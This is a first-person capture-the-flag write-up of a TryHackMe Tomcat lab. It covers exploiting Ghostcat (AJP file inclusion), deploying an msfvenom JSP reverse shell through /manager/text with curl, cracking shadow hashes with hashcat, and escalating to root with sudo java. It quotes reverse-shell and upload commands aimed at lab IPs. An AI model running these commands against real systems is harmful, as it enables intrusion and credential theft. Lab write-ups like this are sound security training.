 # VulnNet: dotjar

https://tryhackme.com/room/vulnnetdotjar

Oof, this room took a lot longer than it should have, I think. I really struggled with the initial foothold (not helped by the room saying it should have been easy, haha).

Recon showed two ports, 8009 and 8080. On 8080 was a tomcat instance, so I immediately though of the war deploy hack, but the manager interface was protected by basic auth. I ran through a bunch of default creds for this, tried hitting it with hydra and even metasploit's enum function (I usually avoid metasploit just because its too magic), but no dice.

8009 is the 'ajp' port, sort of a different protocol way to access the admin interface. A few resources I'd read only mentioned it insofar as you can use it to access tomcat if 8080 is blocked, which wasn't much use. Hmm. I figured it being exposed though, as one of only *two* ports, must be important.

An hour or so of banging myhead, and I did a bit more research before stumbling onto [Ghostcat](https://www.securityweek.com/apache-tomcat-affected-serious-ghostcat-vulnerability) - a vulnerability in ajp that provides somewhat restricted but still potentially devastating local file inclusion. To test this, I hit up exploit db and found this python 2 script: https://www.exploit-db.com/exploits/48143

Grabbing this and running it as is (`python2 ghostcat.py 10.10.104.169`) pulled out the `WEB-INF/web.xml` file, which contained the following text:

```xml
<description>
     VulnNet Dev Regulations - mandatory

1. Every VulnNet Entertainment dev is obligated to follow the rules described herein according to the contract you signed.
2. Every web application you develop and its source code stays here and is not subject to unauthorized self-publication.
-- Your work will be reviewed by our web experts and depending on the results and the company needs a process of implementation might start.
-- Your project scope is written in the contract.
3. Developer access is granted with the credentials provided below:

    <redacted>:<redacted>

GUI access is disabled for security reasons.

4. All further instructions are delivered to your business mail address.
5. If you have any additional questions contact our staff help branch.
  </description>
```

Great! I had creds... but these didn't work for the manager interface. They did work for the host-manager though, and thus went the next hour as I went down a dead end. Specifically, I tried following this guide: https://www.certilience.fr/2019/03/tomcat-exploit-variant-host-manager/, but couldn't get it to work. Turns out, it only works if a number of configurations have been made to, for example, allow tomcat to host from remote servers which didn't appear to be the case.

So I was stuck again... until I read the above more slowly. The GUI is disabled... but in my wanderings and enumeration of tomcats docs I found it had a ... text interface? basically a simplistic api. That is, /manager/html is the standard manager url, but */manager/text* performs basically the same purpose without a gui! Sure enough, by accessing /manager/text/list I got a list of deployed applications.

Ok, so back to using the standard war exploit, finally :)

- First I created a jsp-based reverse shell with msfvenom: `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.108.144 LPORT=4444 -f raw -o revshell.jar`
- Then I uploaded this using curl: `curl -u <redacted> --upload-file revshell.war http://10.10.104.169:8080/manager/text/deploy?path=/revshell`
- Finally, by starting a nc listener and navigating to `http://10.10.104.169:8080/revshell`

This got me onto the machine as 'web'.

From here it was somewhat easy. I ran linpeas, and found a backup file under backups I could read, `shadow-backup-alt.gz`. Unzipping this got me a copy of shadow with the hashes for `web` and the other user, `jdk-admin`. I put these through hashcat with rockyou and `-m 1800` and quickly got the jdk-admin password. In their home directory was the user flag.

To get to root, sudo -l revealed I could run java as root, specifically `/usr/bin/java -jar *.jar`. Easy. I created another revshell, with a subtly different payload: `msfvenom -p java/shell_reverse_tcp LHOST=10.10.108.144 LPORT=4445 -f raw -o revshell2.jar`, brought this onto the machine via a web server and wget, started a new listener and then ran the sudo command to get a root shell. Easy :) Note that msfvenom, with a java payload will emit a jar format by default.
